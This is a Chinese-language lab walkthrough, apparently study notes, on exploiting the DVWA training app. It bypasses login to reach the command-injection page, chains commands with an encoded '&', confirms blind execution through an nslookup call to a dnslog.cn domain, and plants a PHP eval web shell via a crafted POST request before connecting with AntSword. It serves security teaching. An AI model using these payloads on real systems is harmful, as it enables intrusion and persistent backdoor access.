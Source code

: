**利用失效的访问控制漏洞执行命令注入**

先在正常登录的情况下，`BurpSuite`抓取`Command Injection`关卡的`Low级别`

![image-20230901165159111](imgs/image-20230901165159111.png)

---

然后点击`Logout`退出登录

==实现在不登录DVWA靶场的情况下访问靶场里面` Command Injection`关卡的`Low级别`==

路径：`vulnerabilities\exec\source`

![image-20230901162806823](./imgs/image-20230901162806823.png)

浏览器访问`low.php`

![image-20230901162948629](imgs/image-20230901162948629.png)

通过访问`http://192.168.80.139/DVWA-2.0.1/vulnerabilities/exec/source/low.php`

得到如下界面，做一个命令执行

![image-20230901163006658](imgs/image-20230901163006658.png)

`BurpSuite`抓取数据包，发送到`Repeater`模块

![image-20230901165404168](imgs/image-20230901165404168.png)

改变数据包的请求方式，在源码中可以得知是通过`POST`方式提交的

![image-20230901164050275](imgs/image-20230901164050275.png)

![image-20230901164141827](imgs/image-20230901164141827.png)

添加请求体内容：`ip=127.0.0.1&Submit=Submit`     

使用`&`实现命令拼接，做命令注入

`&`需要做URL编码，防止跟连接`Submit`的`&`发生冲突

`BurpSuite`中选中`&`，按`Ctrl+u`，即可实现`uRL编码`

![image-20230901170651456](imgs/image-20230901170651456.png)

发现使用`whoami`命令并**没有回显**

然后使用`calc`尝试调出计算器

![image-20230901171043155](imgs/image-20230901171043155.png)

![动画66655](./imgs/动画66655.gif)



命令执行成功！

==说明页面没有回显并不能代表命令执行没有成功==

可以利用[dnslog平台](http://dnslog.cn/)测试命令是否执行成功

![image-20230901171830352](imgs/image-20230901171830352.png)

然后使用`nslookup`进行域名 解析：`ip=127.0.0.1%26nslookup+hv1co0.dnslog.cn&Submit=Submit`

点击`Send`发送，来到`dnslog平台`，点击`Refresh Record`刷新记录

![image-20230901172142032](imgs/image-20230901172142032.png)

解析到了，说明命令执行成功

---

**利用失效的访问控制漏洞写一个webshell，尝试蚁剑连接**

`echo "<?php @eval($_REQUEST[6868])?>" >shell.php` 按`Ctrl+u`做url编码

得到`echo+"<%3fphp+%40eval($_REQUEST[6868])%3f>"+>shell.php`

```python
POST /DVWA-2.0.1/vulnerabilities/exec/source/low.php HTTP/1.1
Host: 192.168.80.139
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/117.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Content-Length: 86

ip=127.0.0.1%26echo+"<%3fphp+%40eval($_REQUEST[6868])%3f>"+>shell.php&Submit=Submit
```

访问`http://192.168.80.139/DVWA-2.0.1/vulnerabilities/exec/source/`查看是否成功

![image-20230901172730298](imgs/image-20230901172730298.png)

访问`shell.php`

![image-20230901173057802](imgs/image-20230901173057802.png)

蚁剑 连接

`http://192.168.80.139/DVWA-2.0.1/vulnerabilities/exec/source/shell.php`



![image-20230901173122605](imgs/image-20230901173122605.png)

![image-20230901173218542](imgs/image-20230901173218542.png)
